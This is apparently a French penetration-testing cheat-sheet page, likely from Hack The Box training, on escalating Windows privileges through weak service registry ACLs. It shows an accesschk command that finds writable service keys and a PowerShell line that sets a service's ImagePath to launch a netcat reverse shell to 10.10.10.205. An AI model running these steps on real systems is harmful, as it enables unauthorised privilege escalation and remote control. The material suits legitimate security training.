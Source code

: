 # Permissive Registry ACLs

### <mark style="color:red;">Permissive Registry ACLs</mark>

#### <mark style="color:green;">Vérification des ACLs de service faibles dans le registre</mark>

{% code fullWidth="true" %}
```
C:\htb> accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```
{% endcode %}

#### <mark style="color:green;">Modification du ImagePath avec PowerShell</mark>

{% code fullWidth="true" %}
```
PS C:\htb> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```
{% endcode %}
